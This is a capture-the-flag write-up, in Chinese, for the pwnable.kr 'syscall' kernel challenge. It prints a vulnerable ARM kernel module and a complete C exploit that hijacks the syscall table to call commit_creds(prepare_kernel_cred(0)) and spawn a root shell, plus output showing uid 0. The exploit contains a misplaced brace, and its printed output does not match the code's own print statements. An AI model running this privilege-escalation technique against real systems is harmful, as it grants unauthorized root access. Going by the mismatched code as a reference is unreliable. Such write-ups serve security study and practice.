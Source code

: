 # syscall

Ref
- https://github.com/DoubleLabyrinth/pwnable.kr/blob/master/Rookiss/syscall/README.md

這題比較特別是 kernel module

arm，要 debug 應該需要用到 qemu system mode

```c 
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );

```

小寫轉大寫，如果非大寫，就直接寫入

因為 out 我們可控，可以任意寫

我們要提權，我們需要構造一支程式 syscall 去修改目前自己這隻程式的權限，之後去呼叫 system 就拿到有權限的shell，或是要跑 shellcode 也可以

需要修改的地方為 task_struct 的 cred

利用 kernel 內部自己的函數修改 `commit_creds(prepare_kernel_cred(0));`

用 SYS_upper 把 SYS_upper 寫成 buf_sys_getroot

再次 SYS_upper aka buf_sys_getroot 並且傳入 commit_creds prepare_kernel_cred 位置

kernel function symbol 可以從 `/proc/kallsyms` 不過有時候會拿不到(被隱藏) 

```c
#include <stddef.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <stdlib.h>
#include <stdio.h>

#define SYS_CALL_TABLE ((void**)0x8000e348)
#define SYS_upper 223

long sys_getroot(void* (*prepare_kernel_cred)(void*), int (*commit_creds)(void*)) {
    return commit_creds(prepare_kernel_cred(NULL));
}

int main(int argc, char* argv[]) {
    //<prepare_kernel_cred_addr> <commit_creds_addr>
        size_t i;
        void* prepare_kernel_cred = (void*)strtoul(argv[1], NULL, 16);
        void* commit_creds = (void*)strtoul(argv[2], NULL, 16);
        uint8_t buf_sys_getroot[sizeof(void*) + 1] = {0};

        printf("[*] sys_getroot = %p\n", sys_getroot);

        *(void**)buf_sys_getroot = (void*)sys_getroot;
        for (i = 0; i < sizeof(void*); ++i) {
            if (buf_sys_getroot[i] == 0 || 'a' <= buf_sys_getroot[i] && buf_sys_getroot[i] <= 'z') {
                puts("Cannot get root for now.");
                return -1;
            }

        printf("[*] prepare_kernel_cred = %p\n", prepare_kernel_cred);
        printf("[*] commit_creds = %p\n", commit_creds);

        syscall(SYS_upper, buf_sys_getroot, SYS_CALL_TABLE + SYS_upper);
        syscall(SYS_upper, prepare_kernel_cred, commit_creds);


        system("/bin/sh");

    }
}
```



這邊指令 ttext 應該是要避免編譯後的 sys_getroot 會出現大寫英文的hex

>-Ttext option puts the .text section of your program by the given address
```c 
/tmp $ gcc -Ttext=0x03bbc010 t.c 
/tmp $ ./a.out  8003f924 8003f56c
[*] sys_getroot = 0x3bbc089
[*] lpfn_prepare_kernel_cred = 0x8003f924
[*] lpfn_commit_creds = 0x8003f56c
Launching shell...
/bin/sh: can't access tty; job control turned off
/tmp # ls
a.out  t.c
/tmp # whoami
whoami: unknown uid 0
```
